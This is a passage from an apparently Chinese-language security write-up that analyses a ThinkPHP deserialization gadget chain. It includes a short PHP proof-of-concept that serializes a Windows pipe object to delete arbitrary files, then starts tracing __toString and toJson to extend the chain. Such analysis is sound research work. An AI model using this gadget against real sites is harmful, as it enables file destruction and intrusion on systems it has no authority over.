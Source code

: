 
这里使用了$this-&gt;files，而且这里的$files是可控的。所以存在一个任意文件删除的漏洞。

POC可以这样构造：

```
namespace think\process\pipes;

class Pipes`{`

`}`

class Windows extends Pipes
`{`
private $files = [];

public function __construct()
`{`
$this-&gt;files=['需要删除文件的路径'];
`}`
`}`

echo base64_encode(serialize(new Windows()));
```

这里只需要一个反序列化漏洞的触发点，便可以实现任意文件删除。

在removeFiles()中使用了file_exists对$filename进行了处理。我们进入file_exists函数可以知道，$filename会被作为字符串处理。

[![](https://p2.ssl.qhimg.com/dm/1024_310_/t017aa79bc760f66484.png)](https://p2.ssl.qhimg.com/dm/1024_310_/t017aa79bc760f66484.png)

而__toString 当一个对象被反序列化后又被当做字符串使用时会被触发，我们通过传入一个对象来触发__toString 方法。我们全局搜索__toString方法。

[![](https://p2.ssl.qhimg.com/t01c9771808d857b099.png)](https://p2.ssl.qhimg.com/t01c9771808d857b099.png)

我们跟进\thinkphp\library\think\model\concern\Conversion.php的Conversion类的第224行,这里调用了一个toJson()方法。

```
.....
    public function __toString()
    `{`
        return $this-&gt;toJson();
    `}`
    .....
```

跟进toJson()方法

```
....
    public function toJson($options = JSON_UNESCAPED_UNICODE)
    `{`
        return json_encode($this-&gt;toArray(), $options);
    `}`
    ....
```
